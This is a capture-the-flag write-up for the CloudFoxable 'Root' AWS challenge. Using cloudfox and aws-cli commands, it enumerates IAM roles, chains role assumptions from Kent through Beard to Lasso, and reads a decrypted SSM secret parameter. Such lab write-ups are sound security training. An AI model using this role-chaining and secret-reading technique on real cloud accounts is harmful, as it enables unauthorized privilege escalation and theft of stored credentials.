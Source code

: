 # CloudFoxable - Root

Challenge link: https://cloudfoxable.bishopfox.com/challenges#Root-18

![](images/root-description.png)

Let's create new profile for **`Kent`**:

```
[profile Kent]
region = us-west-2
role_arn = arn:aws:iam::ACCOUNTID:role/Kent
source_profile = cloudfoxable
```

This challenge is all about assume role:

- cloudfox

```
cloudfox aws -p cloudfoxable permissions --principal Kent
```

![](images/root-cloudfox-permissions.png)

- aws-cli

```
aws --profile cloudfoxable list-attached-role-policies --role-name Kent
```

![](images/root-aws-cli-list-attached-role-policies.png)

![](images/root-aws-cli-get-policy.png)

![](images/root-aws-cli-get-policy-version.png)


As you can see role **`Kent`** only has **`sts:AssumeRole`** so we will need to find another role that we can assume. As the description describe, we will need to read **`root`** flag in SSM parameter store so let's list all parameters in SSM store first:

- cloudfox

```
cloudfox aws -p cloudfoxable secrets
```

Run that command and you will get the command to read **`root`** flag!

- aws-cli

```
aws --profile cloudfoxable ssm describe-parameters
```

Run that command and search for `root`

All 2 ways will lead us to parameter **`/production/CICD/root`**. Now we don't know what role will interact with this resource so again, let's list all and grep:

- cloudfox

```
cloudfox aws -p cloudfoxable permissions | grep root
```

![](images/root-cloudfox-permissions-grep-root.png)

- aws-cli

We will use the script from [here](https://github.com/nhtri2003gmail/CTFWriteup/tree/master/online/cloudfoxable/backwards#using-aws-cli), let it run and stop at notable thing:

![](images/root-aws-cli-list-all-policies.png)

Ahha! We found a role that interact with the param we want!

So the role we need to focus now is **`Lasso`**. Now we will want if this role assume as another role or not:

- cloudfox

```
cloudfox aws -p cloudfoxable role-trusts
```

![](images/root-cloudfox-role-trusts.png)

- aws-cli

```
aws --profile cloudfoxable iam get-role --role-name Lasso
```

![](images/root-aws-cli-iam-get-role.png)

So if we are role **`Beard`**, we can assume that we are role **`Lasso`**. Currently, we are user **`ctf-starting-user`**, we can assume that we are role **`Kent`**. We have a simple relationship as follow:

```
                   assume
ctf-starting-user --------> Kent
Beard             --------> Lasso
```

But **`Kent`** can assume as enyone else because it has policy **`sts:AssumeRole`**, therefore **`Kent`** can assume that he is role **`Beard`** and we can connect the relationship as below:

```
                   assume         assume          assume
ctf-starting-user --------> Kent --------> Beard --------> Lasso
```

Now we will need to config profile to match that relationship:

```
[profile kent]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Kent
source_profile = cloudfoxable

[profile beard]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Beard
source_profile = kent

[profile lasso]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Lasso
source_profile = beard
```

Note that `role_arn` is the role we set for our profile, only `source_profile` is where we specify it assume as another role. We know the ssm param is **`/production/CICD/root`**, let's try to read that with profile **`lasso`**:

```
aws --profile lasso ssm get-parameter --with-decryption --name /production/CICD/root
```

![](images/root-get-flag.png)

Tadaaa! We got the flag now!